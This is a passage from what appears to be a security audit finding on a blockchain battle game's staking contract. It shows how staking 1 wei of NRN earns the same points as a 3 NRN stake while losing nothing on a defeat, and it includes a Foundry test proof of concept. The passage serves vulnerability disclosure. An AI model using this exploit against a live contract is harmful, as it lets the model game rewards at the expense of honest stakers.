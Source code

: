 For this initial case where the smallest staking factor is 1, the playing field is not levelled, allowing users with lesser NRN or dust amount of NRN (minimum of 1 wei) to exploit this scenario.

2. Another impact is that, if the attacker loses a battle, he doesn't even lose his 1 wei while the user would be charged `bpsLostPerLoss` from his stake. This is because curStake is calculated using `(bpsLostPerLoss * (amountStaked[tokenId] + stakeAtRisk)) / 10**4`. For the attacker, this would round down to 0 since the denominator would be greater than the numerator (meaning 0 loss on losing) while the user loses 10 bps of his staked amount of 3 NRN.

**Overall with both impacts combined**, for a stake of 1 wei of NRN, not only does the attacker receive the same potential/staking factor to earn points as the user but also 0 loss for losing a battle.

### Proof of Concept

### First POC

How to use this POC:
 - Add the POC to the RankedBattle.t.sol file in the `test` folder.
 - Run the POC using `forge test --match-test testStakingFactorIssue -vvv`
 - The POC demonstrates how an `attacker` staking 1 wei of NRN receives the same number of points as a user staking 3 NRN on winning a battle.
 - The console logs have been made after the assertions are valid i.e. attacker and user having same points on winning a battle and having the same staking factor of 1.
```solidity
File: RankedBattle.t.sol
524:     address public attacker = makeAddr("attacker");
525:     address public user = makeAddr("user");
526:
527:     function testStakingFactorIssue() public {
528:         // Mint Fighter NFT to attacker and user
529:         vm.prank(address(_mergingPoolContract));
530:         _fighterFarmContract.mintFromMergingPool(attacker,"","",[uint256(1), uint256(80)]);
531:         vm.prank(address(_mergingPoolContract));
532:         _fighterFarmContract.mintFromMergingPool(user,"","",[uint256(1), uint256(80)]);
533:
534:         // Fund attacker and user with enough neurons
535:         _fundUserWith4kNeuronByTreasury(attacker);
536:         _fundUserWith4kNeuronByTreasury(user);
537:
538:         // Attacker stakes 1 wei of NRN and User stakes 3 NRN
539:         vm.prank(attacker);
540:         _rankedBattleContract.stakeNRN(1, 0);
541:         vm.prank(user);
542:         _rankedBattleContract.stakeNRN(3 * 10**18, 1);
543:
544:         // Let's say both attacker and user win a fight
545:         vm.prank(_GAME_SERVER_ADDRESS);
546:         _rankedBattleContract.updateBattleRecord(0, 0, 0, 1500, false);
547:         vm.prank(_GAME_SERVER_ADDRESS);
548:         _rankedBattleContract.updateBattleRecord(1, 0, 0, 1500, false);
549:
550:         // Asserting points for attacker and user to be equal
551:         assertEq(_rankedBattleContract.accumulatedPointsPerFighter(0,0), _rankedBattleContract.accumulatedPointsPerFighter(1,0));
552:         console.log("Points of attacker:", _rankedBattleContract.accumulatedPointsPerFighter(0,0));
553:         console.log("Points of user:", _rankedBattleContract.accumulatedPointsPerFighter(1,0));
554:
555:         // Asserting staking factors for attacker and user
556:         assertEq(_rankedBattleContract.stakingFactor(0), _rankedBattleContract.stakingFactor(1));
557:         console.log("Staking factor of attacker:", _rankedBattleContract.stakingFactor(0));
558:         console.log("Staking factor of user:", _rankedBattleContract.stakingFactor(1));
```